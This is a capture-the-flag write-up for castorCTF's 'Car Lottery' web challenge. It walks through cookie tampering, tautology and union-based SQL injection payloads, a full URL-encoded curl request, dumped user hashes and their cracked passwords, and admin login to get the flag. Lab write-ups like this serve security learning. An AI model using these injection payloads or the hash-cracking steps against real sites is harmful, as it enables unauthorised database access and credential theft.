

**CAR LOTTERY** 


**Category:** Web
**Concepts:** sqli, union based sqli

**Problem Statement:**
http://web1.cybercastors.com:14435

**Hints**
None




The website greets you with the following message:

```
Welcome!!

Here you get to test your luck for a chance to win a car!!

To win the car you must be the 3123213rd visitor, to try your luck just refresh your browser!
```
I realized that it is taking the visitor number from a plain text cookie(subtracts 35 from the cookie number). So I changed the cookie to "client=3123248" and I was greeted with the page in the picture above.

Now, selecting any option would change the url by `id={1,2 or 3}` through POST. So I popped out curl and started making requests with sql injections.
PoC (" ' or '1'='1' --") worked and gave me all the cars' details. But there was nothing interesting in that. So I went ahead and started doing Union Based sql injetions to try and get the table schema and other tables in the database.

QUERY: ` AND 1=2 UNION SELECT 1, COLUMN_NAME , TABLE_NAME , TABLE_SCHEMA , 4 from INFORMATION_SCHEMA.COLUMNS`


```console
curl -X POST "http://web1.cybercastors.com:14435/search?id=1%20%41%4e%44%20%31%3d%32%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%31%2c%20%43%4f%4c%55%4d%4e%5f%4e%41%4d%45%20%2c%20%54%41%42%4c%45%5f%4e%41%4d%45%20%2c%20%54%41%42%4c%45%5f%53%43%48%45%4d%41%20%2c%20%34%20%66%72%6f%6d%20%49%4e%46%4f%52%4d%41%54%49%4f%4e%5f%53%43%48%45%4d%41%2e%43%4f%4c%55%4d%4e%53"
```
Here, I have url-encoded the Query above.

Looking through the tables, I found out that the database in use was 'cars' and it had another table called 'Users'.
Selected this table and it gave me 4 creds.

```
admin@cybercastors.com      cf9ee5bcb36b4936dd7064ee9b2f139e
admin@powerpuffgirls.com    fe87c92e83ff6523d677b7fd36c3252d
jeff@homeaddress.com        d1833805515fc34b46c2b9de553f599d 
moreusers@leakingdata.com   77004ea213d5fc71acf74a8c9c6795fb
```
I used [John the ripper](https://github.com/magnumripper/JohnTheRipper) to crack these and found out the plain text passwords:
```
naruto
powerpuff
pancakes
fun
```
After this I was stuck for a while, didn't know where to use these creds. Then from the hints by the admin on discord, I figured out that the uri where these creds were to be used was '/dealer'. Without the hints, you could do it with [Gobuster](https://github.com/OJ/gobuster). So the first email and the corresponding password worked and I got my flag!

**FLAG:** castorCTF{daT4B_3n4m_1s_fuN_N_p0w3rfu7}


